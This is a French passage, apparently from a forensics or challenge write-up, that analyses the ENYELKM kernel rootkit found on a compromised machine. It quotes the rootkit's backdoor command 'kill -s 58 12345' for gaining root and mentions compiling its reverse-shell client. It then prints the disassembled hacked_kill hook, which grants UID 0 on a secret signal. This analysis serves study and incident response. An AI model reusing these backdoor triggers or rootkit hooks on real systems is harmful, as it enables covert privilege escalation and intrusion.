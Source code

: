 Par exemple le reverse shell installé ne fonctionne pas ? On prend la source de la lkm, on compile (`make conectar`), on lance et paf ! Un shell root.  

C'est marrant, mais ce qui nous intéresse, c'est ce `validnivo` de tout à l'heure et aussi la possibilité de répondre aux questions...  

Dans la doc de `ENYELKM v1.1` on a l'info suivante :  

```plain
* Consiguiendo root local:

Haciendo: # kill -s 58 12345
se consigue id 0.
```

Notre pirate a dû modifier les paramètres par défaut avant compilation puisque cette commande ne donne pas l'UID 0.  

Une seule solution : désassembler le rootkit et étudier son code.
Après quelques recherches je trouve une commande qui semble appropriée :  

```bash
objdump -dr modutils.cache
```

La partie qui nous intéresse est :

```nasm
000002e0 :
 2e0: 83 ec 0c sub $0xc,%esp
 2e3: b8 00 e0 ff ff mov $0xffffe000,%eax
 2e8: 8b 4c 24 10 mov 0x10(%esp),%ecx
 2ec: 89 5c 24 08 mov %ebx,0x8(%esp)
 2f0: 8b 5c 24 14 mov 0x14(%esp),%ebx
 2f4: 21 e0 and %esp,%eax
 2f6: 81 f9 43 ba 00 00 cmp $0xba43,%ecx
 2fc: 8b 10 mov (%eax),%edx
 2fe: 74 15 je 315 <hacked_kill+0x35>
 300: 89 5c 24 04 mov %ebx,0x4(%esp)
 304: 89 0c 24 mov %ecx,(%esp)
 307: ff 15 00 00 00 00 call *0x0
 309: R_386_32 orig_kill
 30d: 8b 5c 24 08 mov 0x8(%esp),%ebx
 311: 83 c4 0c add $0xc,%esp
 314: c3 ret
 315: b8 24 00 00 00 mov $0x24,%eax
 31a: 39 d8 cmp %ebx,%eax
 31c: 75 e2 jne 300 <hacked_kill+0x20>
 31e: 31 c0 xor %eax,%eax
 320: 31 db xor %ebx,%ebx
 322: 31 c9 xor %ecx,%ecx
 324: 89 82 d0 01 00 00 mov %eax,0x1d0(%edx)
 32a: 31 c0 xor %eax,%eax
 32c: 89 82 e4 01 00 00 mov %eax,0x1e4(%edx)
 332: 31 c0 xor %eax,%eax
 334: 89 9a d4 01 00 00 mov %ebx,0x1d4(%edx)
 33a: 89 8a e0 01 00 00 mov %ecx,0x1e0(%edx)
 340: eb cb jmp 30d <hacked_kill+0x2d>
```

